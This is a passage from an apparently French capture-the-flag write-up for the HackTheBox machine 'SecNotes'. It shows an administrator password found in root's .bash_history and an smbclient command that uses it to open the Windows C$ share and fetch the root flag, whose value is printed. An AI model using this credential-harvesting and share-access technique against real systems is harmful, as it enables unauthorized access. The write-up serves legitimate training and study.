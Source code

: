 Il faudrait pouvoir exécuter le WSL avec des privilèges supplémentaires pour parvenir à quelque chose. Le manifeste qui vient avec l'exécutable *ubuntu.exe* contient la mention *runFullTrust* mais ce n'est visiblement pas ce qu'on espère.  

Finalement si on va voir dans le *.bash\_history* de *root* on trouve des identifiants (et un gros sentiment de fatigue instantané :'D)  

```bash
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exitls
```

La suite on la devine :  

```plain
$ smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\secnotes.htb\\c$
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> cd Users/Administrator/Desktop
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

Et à nous le flag root (*7250cde1cab0bbd93fc1edbdc83d447b*).  

Toujours un plaisir de s'exercer sur des machines Windows :)

*Published January 19 2019 at 17:09*